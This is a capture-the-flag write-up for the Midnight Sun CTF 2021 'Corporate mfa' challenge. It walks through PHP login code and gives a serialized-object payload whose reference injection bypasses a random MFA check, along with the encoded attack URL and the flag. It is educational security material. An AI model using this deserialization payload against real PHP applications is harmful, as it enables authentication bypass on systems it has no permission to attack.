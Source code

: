 ```yaml
---
title: "Midnight Sun CTF 2021 Corporate mfa writeup"
description: "Midnight Sun CTF 2021 Corporate mfa writeup"
authors: [hi120ki]
tags: [CTF, Web, Web Security]
slug: posts/20210412
---
```


## Challenge

The source for this corporate zero-trust multi factor login portal has been leaked! Figure out how to defeat the super-secure one time code.
settings Service: http://corpmfa-01.play.midnightsunctf.se

## Solution

<!-- truncate -->

We need to break through the `verify()` function.

```php
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}
```

First, `verifyUsername()` is a simple string comparison.

```php
	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}
```

Second, `verifyPassword()` is a password inspection using bcrypt.

```php
	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}
```

This hash is well known in [PHP manual](https://www.php.net/manual/en/function.password-verify.php).

The password is `rasmuslerdorf`.

And finally, `verifyMFA()` is inspection of a number that is 10 digit random number.

```php
	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```

This is very difficult to break through. However, the variable `mfa` is created by unserializing user requests.

So, it is possible to determine that `mfa` and `_correctValue` match by using `mfa` as the reference of `_correctValue` by object injection.

Answer is

```
O:8:"stdClass":4:{s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:13:"_correctValue";N;s:3:"mfa";R:4;}
```

And create userdata parameter by base64 encoding.

http://corpmfa-01.play.midnightsunctf.se/?userdata=Tzo4OiJzdGRDbGFzcyI6NDp7czo4OiJ1c2VybmFtZSI7czoxMToiRDBsb3Jlc0g0emUiO3M6ODoicGFzc3dvcmQiO3M6MTM6InJhc211c2xlcmRvcmYiO3M6MTM6Il9jb3JyZWN0VmFsdWUiO047czozOiJtZmEiO1I6NDt9

I got flag.

```
midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}
```
